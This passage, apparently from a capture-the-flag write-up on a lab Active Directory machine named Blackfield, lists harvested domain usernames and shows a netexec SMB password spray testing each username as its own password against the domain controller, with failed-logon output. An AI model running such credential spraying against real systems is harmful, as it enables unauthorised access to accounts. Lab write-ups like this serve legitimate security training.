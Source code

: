 `cat ./domain_users.txt | awk '{ print tolower($0) }' | tee ./domain_users_lowercase.txt`:
```
administrator
guest
krbtgt
dc01$
audit2020
support
svc_backup
lydericlefebvre
pc01$
pc02$
pc03$
pc04$
pc05$
pc06$
pc07$
pc08$
pc09$
pc10$
pc11$
pc12$
pc13$
srv-web$
srv-file$
srv-exchange$
srv-intranet$
```

`netexec smb 10.10.10.192 -u ./domain_users_lowercase.txt -p ./domain_users_lowercase.txt --no-bruteforce --continue-on-success`:
```
SMB         10.10.10.192    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.10.10.192    445    DC01             [-] BLACKFIELD.local\administrator:administrator STATUS_LOGON_FAILURE 
SMB         10.10.10.192    445    DC01             [-] BLACKFIELD.local\guest:guest STATUS_LOGON_FAILURE 
SMB         10.10.10.192    445    DC01             [-] BLACKFIELD.local\krbtgt:krbtgt STATUS_LOGON_FAILURE 
SMB         10.10.10.192    445    DC01             [-] BLACKFIELD.local\dc01$:dc01$ STATUS_LOGON_FAILURE 
SMB         10.10.10.192    445    DC01             [-] BLACKFIELD.local\audit2020:audit2020 STATUS_LOGON_FAILURE 
SMB         10.10.10.192    445    DC01             [-] BLACKFIELD.local\support:support STATUS_LOGON_FAILURE 
SMB         10.10.10.192    445    DC01             [-] BLACKFIELD.local\svc_backup:svc_backup STATUS_LOGON_FAILURE 
SMB         10.10.10.192    445    DC01             [-] BLACKFIELD.local\lydericlefebvre:lydericlefebvre STATUS_LOGON_FAILURE 
SMB         10.10.10.192    445    DC01             [-] BLACKFIELD.local\pc01$:pc01$ STATUS_LOGON_FAILURE 
SMB         10.10.10.192    445    DC01             [-] BLACKFIELD.local\pc02$:pc02$ STATUS_LOGON_FAILURE 
SMB         10.10.10.192    445    DC01             [-] BLACKFIELD.local\pc03$:pc03$ STATUS_LOGON_FAILURE 
SMB         10.10.10.192    445    DC01             [-] BLACKFIELD.local\pc04$:pc04$ STATUS_LOGON_FAILURE 
SMB         10.10.10.192    445    DC01             [-] BLACKFIELD.local\pc05$:pc05$ STATUS_LOGON_FAILURE 
SMB         10.10.10.192    445    DC01             [-] BLACKFIELD.local\pc06$:pc06$ STATUS_LOGON_FAILURE 
SMB         10.10.10.192    445    DC01             [-] BLACKFIELD.local\pc07$:pc07$ STATUS_LOGON_FAILURE 
```